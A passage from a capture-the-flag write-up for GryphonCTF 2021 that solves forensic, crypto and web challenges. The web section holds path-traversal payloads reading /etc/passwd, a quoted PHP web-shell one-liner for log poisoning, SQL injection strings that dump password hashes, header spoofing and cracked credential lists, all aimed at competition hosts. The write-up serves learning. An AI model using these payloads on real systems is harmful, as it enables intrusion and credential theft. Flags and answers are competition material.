            f.write("GCTF{F0r3n51cS_1s_n0T_h4rD_" + str(random.randint(100000,999999)) + "}")
        x += 1 
```

A bit of scripting to get a wordlist to crack zip file

```bash
grep -i "[0-9]*}$" *  > wordlist.txt
```


```bash
fcrackzip -v -D -p wordlist.txt flag.zip

found file 'part2.png', (size cp/uc  38989/ 40278, flags 9, chk 1d93)
possible pw found: y0Uf0uNdTh3p@5sw0Rd! ()
possible pw found: 690159 ()
possible pw found: 397419 ()
possible pw found: 247118 ()
possible pw found: 818579 ()
possible pw found: 880147 ()
possible pw found: 866383 ()
possible pw found: 114573 ()
possible pw found: 104506 ()
possible pw found: 514581 ()
possible pw found: 913980 ()
possible pw found: 929337 ()
possible pw found: 827629 ()
possible pw found: 107037 ()
possible pw found: 808488 ()
possible pw found: 247118 ()
possible pw found: 306641 ()
possible pw found: 815347 ()
possible pw found: 760079 ()
possible pw found: 434146 ()
possible pw found: 352412 ()
possible pw found: 223442 ()
possible pw found: 275364 ()
possible pw found: 269665 ()
possible pw found: 905030 ()
possible pw found: 122364 ()
possible pw found: 124377 ()
possible pw found: 713461 ()
possible pw found: 494175 ()
possible pw found: 905030 ()
```

Extract the part2.png


Flag: GCTF{345Y\_f0ReNs1C5\_L0L}

<br/>

### [Forensic]  Image recover (Unsolved)

### [Forensic] Imposter (Unsolved)

### [Forensic] Magnified (Unsolved)

### [Forensic] Off by a bit (Unsolved)

<br/>

### [Crypto] 64-bit symbolic arcade game by Julius

Description: I found this string of text in the code of an old arcade game. Do you think you can decode it?

```plaintext
WW91ciBrZXlib2FyZCB3aWxsIGhlbHAgaW4gdGhlIG5leHQgc3RlcDolJCMkJCUkQCEhIyEjQCMkJCMkJCQkQCMhJSRAISUjJCMjISUjQCMkJEAhJSQjJCQhJSMlJCQjJEBAIyQjJCEkIUBAISEhJCMhJCNAIUAkJEAlJCUhJSRAQEAlJQ==
```

Base64 Convert = `Your keyboard will help in the next step:%$#$$%$@!!#!#@#$$#$$$$@#!%$@!%#$##!%#@#$$@!%$#$$!%#%$$#$@@#$#$!$!@@!!!$#!$#@!@$$@%$%!%$@@@%%`

Convert to numbers = 54344542113132344344442315421534331532344215434415354434223434141221114314321244254515422255

Used: https://www.dcode.fr/cipher-identifier to identify the cipher.

https://www.dcode.fr/polybius-cipher

Decrypt

Rotation cipher, shift left by 12

YOURALMOSTTHEREONEMORESTEPTOGO ODBFASDMBTKUERGZ

[Rot13 CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,-12)&input=WU9VUkFMTU9TVFRIRVJFT05FTU9SRVNURVBUT0dPIE9EQkZBU0RNQlRLVUVSR1o)

MCIFOZACGHHVSFSCBSACFSGHSDHCUC CRPTOGRAPHYISFUN

Flag: GCTF{CRPTOGRAPHYISFUN}

<br/>

### [Crypto] cIPheR

Solved by Gavin

Description: easy multi step cipher

```
1. S0EYRxyBINGSUUPGQMYCHYFLVUXURLJBAZFTJVWGQEKBINGSUUPGQMYCHYFLVUXURLJBAZFTJVWFQEKBINGSUUPGQMYCHYFLVUXVRLJBAZFTJVWFQEKBINGTUUPGQMCCHYFLVUXURLJCAZFTJVWFQEKBIdGSUUPHQMYCHYFLVUXURLJBAZFTJVWFQEOBINGSUUPGQMYCHYFLVUXURLJBApFTJVWFQEKBINGSUUPGQMYCHYFMVUXURLNBAZFTJVWFQEKBINGSUUTGQMYCHYFLVUXURLJBAZJTJVWFQuKBINGSUUPGQMCCHYFLVUXURLJCAZFTJVAFQEKBINGSUUPHQMYCHYJLVUXURLJBAZFTJVWFQEKBINGSUkPGQMYCHYFLVUXURLJBAZFTJVWFQEKBINGSUUPGQMYCHYFMVUXURLJBAZFTJlWFQEKBINGSUUTGQMYCHYFLVUXURLJBAZJTJVWFQEKBINGTUUPGQMYCHYFLVkXURLJCAZFTJVW9

Vigenere Decode (Key=BREAKFAST) = R0NURntBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUJBQUFBQkFBQUFBQUFBQUJBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFCQUFBQUF9

Base64 = GCTF{AAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAABAAAABAAAAAAAAABAAAAAAAAABAAAABAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAABAAAABAAAAAAAAAAAAAABAAAAAAAAAAAAAABAAAABAAAAAAAAABAAAAAAAAABAAAABAAAAAAAAABAAAABAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAABAAAAAAAAABAAAAAAAAAAAAAABAAAAAAAAABAAAAAAAAABAAAABAAAAA}
```

Bacon Cipher Decode = BACONISTOOSALTY

[Bacon Cipher CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=Bacon_Cipher_Decode('Standard%20(I%3DJ%20and%20U%3DV)','A/B',false)Bacon_Cipher_Decode('Standard%20(I%3DJ%20and%20U%3DV)','A/B',false)&input=QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQkFBQUFBQUFBQUJBQUFBQkFBQUFBQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFCQUFBQUJBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQkFBQUFCQUFBQUFBQUFBQUFBQUFBQUFBQUJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUFBQUJBQUFBQUFBQUFCQUFBQUFBQUFBQUFBQUFCQUFBQUFBQUFBQkFBQUFBQUFBQUJBQUFBQkFBQUFB)

2. svefg zrny bs gur qnl va pncf vf gur xrl gb guvf punyyratr

first meal of the day in caps is the key to this challenge (caesar cipher +13)

Flag: GCTF{BACONISTOOSALTY}

<br/>

### [Crypto] Story of louis

Solved by Gavin

Description: Have a look through the web and have fun discovering it!
http://c1.2021.gryphonctf.com:9008/

Inspect element
--> https://drive.google.com/drive/folders/13-FU59-OBpNdX5v5MOX1SlY6EtWpCAP_

3 Images


Congrats :) You are almost there!!!
110110100100011110110100{111000101010101001010100011100_110000111010100000010100111000111000100010}
some more in4 (can_be_hint) abt Louis:
1. 1n 1819, 4t th3 4g3 0f 10, h3 w4s 4cc3pt3d t0 th3 1nst1tut3 f0r 6l1nd Ch1ldr3n 1n P4r1s.
2. H1s f4v0ur1t3 numb63r w4s s1x.
3. H3 l0v3d t0 4rr4ng3 h1s stuff fr0m th3 l3ft t0 th3 r1ght, th3 t0p t0 th3 b0tt0m
Have funnn <3

Answer = GCTF{LOUIS_BRAILLE}

<br/>

### [Crypto] Dumplings with vinegar

Solved by Gavin

Description: This is an easy challenge to go, try to discover what is behind the image and get the flag.


Strings:

```plaintext=
Congrats :) You are almost there!!!
2K7J{33HxHz7_z0_ten_pl01HNvt7_01H_epF_09sa}
more hints: from the A to the Z then from the 1 to the 0,
Chinese black vinegar is widely used in Chinese cooking for all types of cold appetizers, braised meats and fish, noodles and as a dipping condiment for dumplings.
And who knows it might be a key.
Have funnn <3
```


Vigenere Cipher Decode
Alphabet = A to Z, 1 to 0
Key = VINEGAR
Result = GCTF{W31c0m3\_t0\_ctf\_ch4113ng3\_411\_th3\_63st}

Flag: GCTF{W31c0m3\_t0\_ctf\_ch4113ng3\_411\_th3\_63st}

<br/>

### [Crypto] FF and more FFFFFF (Unsolved)

### [Crypto] The Gift of Rivest, Shamir, and Adleman (Unsolved)

### [Crypto] Collision (Unsolved)

<br/>

### [Web] Vincenzo

Solved by Ethan

Description: During a visit to his motherland, a Korean-Italian mafia lawyer gives a conglomerate a taste of its own medicine with a side of justice. Watch now!
http://c1.2021.gryphonctf.com:9009/

Inspect element


You will find a paragraph element there with GCTF and a link

Click on the link and you will be redirected


On the new page, it tells you the flag is Song Joong Ki's Birthday. Inspect element again and you will see a hidden element which tells you the format to enter his birthday in.

With that the flag is GCTF{19091985}

<br/>

### [Web] Legit local poison

Description: This website is poisonous. I am trying to find my file but my computer keeps getting infected by the poison. Can you help me find my file?
nc c2.2021.gryphonctf.com 8001

Hint: **Local**

Local File Inclusion vulnerable in PHP

```php=
Warning: Undefined array key "file" in /var/www/html/submit.php on line 2
File Selected: /var/www/html/


Warning: include(/var/www/html): Failed to open stream: Not a directory in /var/www/html/submit.php on line 4

Warning: include(): Failed opening '/var/www/html/' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/submit.php on line 4
```

[PayloadAllTheThings PHP File inclusion payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

../../../../../../../../../../../../etc/passwd


http://c2.2021.gryphonctf.com:9126/submit.php?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

> If the Apache server is vulnerable to LFI inside the include function you could try to access to /var/log/apache2/access.log, set inside the **user agent** or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and execute code using the "c" GET parameter.


<br/>

### [Web] Internal

Description: The aliens have abducted the cow... can you help us find him?

Save Cow.jpg

Cow.jpg:


View the strings of the images


Comments = dmVyeXNlY3VyZXBhc3NwaHJhc2U=
Base64 = verysecurepassphrase

Weird strings, googling it


Discovered that this string is used in Steghide

Extract the hidden data


Found the login credentials

Meridius:HKw@8j$-cR


Error


> Sorry this page can only be viewed internally, please try again!

Googling how to view internal websites

https://blog.itpro.tv/ctf-walkthrough-for-meandmygirlfriend-1/

> What we accomplished was this. By adding localhost as the IP in the X-Forwarded-For header, it tricked the system into thinking that the originating IP was coming from the trusted/white-listed local machine.


Flag: GCTF{4113n\_48duc71n9\_c0w5}

<br/>

### [Web] SQL institute

Description: A friend is starting an online platform for learning about SQL and we have been invited as beta testers. Let's see if we can exploit anything.
nc c2.2021.gryphonctf.com 8002

SQL Injection Attack

```sql
' OR 1=1; -- -
```


IDENTIFY SQL Database Type

```sql
' UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

SQLLite Database


Enmurate Tables

```sql
' UNION SELECT 1, tbl_name FROM sqlite_master;-- -
```


Columns


```sql
' UNION SELECT 1, sql FROM sqlite_master WHERE tbl_name = 'user' AND type = 'table'; -- -
```
```sql
CREATE TABLE user (id INTEGER PRIMARY KEY, username TEXT UNIQUE, password_sha256 TEXT, about TEXT)
```

admin: c499244afdc389678cb2273a31fed27655e86a42a6f1fa2fdb112f73da8a5acb
joe:ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f


By using [CrackStation](https://crackstation.net/), we were able to retrieve the plaintext of these hashes.

admin:admin1987
joe:password123

```sql
CREATE TABLE workshop (id INTEGER PRIMARY KEY, title TEXT UNIQUE, description TEXT)
```


Flag: GCTF{SQLi\_and\_b4D\_p4s5wdS}

<br/>

### [Web] Windows is da best

Description: Our website has been hacked and those Linux punks have modified our website. They've planted information and think they're smart with their hiding skills. Show them who's boss.. o7


https://github.com/g0tmi1k/boot2root-scripts/blob/master/dvwa-login-bruteforce-http-post-csrf.py


http://c1.2021.gryphonctf.com:9010/IN


/etc/shadow
/etc/passwd

Follow https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/


```plaintext=
root:123abc:0:0:root:/root:/bin/bash
mail:picasso:8:8:mail:/var/mail:/bin/sh
news:tanner:9:9:news:/var/spool/news:/bin/sh
nanog:karina:1022:1022::/home/nanog:/bin/sh
jeff:firebird:1023:1023::/home/jeff:/bin/sh
alex:bourbon:1024:1024::/home/alex:/bin/sh
scott:colette:1025:1025::/home/scott:/bin/sh
jason:bradley:1026:1026::/home/jason:/bin/sh
bob:Tennis:1027:1027::/home/bob:/bin/sh
jim:cloclo:1028:1028::/home/jim:/bin/sh
adam:homerj:1029:1029::/home/adam:/bin/sh
james:dylan:1030:1030::/home/james:/bin/sh
tim:deliver:1031:1031::/home/tim:/bin/sh
majordomo:1212:1032:1032::/home/majordomo:/bin/sh
daniel:2kids:1033:1033::/home/daniel:/bin/sh
ben:hannah1:1034:1034::/home/ben:/bin/sh
hostmaster:bluejean:1035:1035::/home/hostmaster:/bin/sh
tom:54321:1036:1036::/home/tom:/bin/sh
snort:annie:1037:1037::/home/snort:/bin/sh
andy:bass:1038:1038::/home/andy:/bin/sh
andrew:fenris:1039:1039::/home/andrew:/bin/sh
greg:integra:1040:1040::/home/greg:/bin/sh
martin:ratio:1042:1042::/home/martin:/bin/sh
rob:houston:1043:1043::/home/rob:/bin/sh
stefan:bruce:1044:1044::/home/stefan:/bin/sh
sam:killer:1045:1045::/home/sam:/bin/sh
linux-kernel:cricket:1046:1046::/home/linux-kernel:/bin/sh
jonathan:tuesday:1047:1047::/home/jonathan:/bin/sh
erik:kombat:1048:1048::/home/erik:/bin/sh
orion:1964:1049:1049::/home/orion:/bin/sh
doug:bettyboop:1050:1050::/home/doug:/bin/sh
spam:liberty:1051:1051::/home/spam:/bin/sh
nessus:mhine:1052:1052::/home/nessus:/bin/sh
bugs:pollito:1053:1053::/home/bugs:/bin/sh
rick:lovelove:1054:1054::/home/rick:/bin/sh
josh:raymond:1055:1055::/home/josh:/bin/sh

36 password hashes cracked, 1 left
```

Logined as root


Stego

metadata.png


Base64 decode:

Flag: GCTF{h0w\_d1d\_y0u\_f1nD\_m3??!??!@#$#}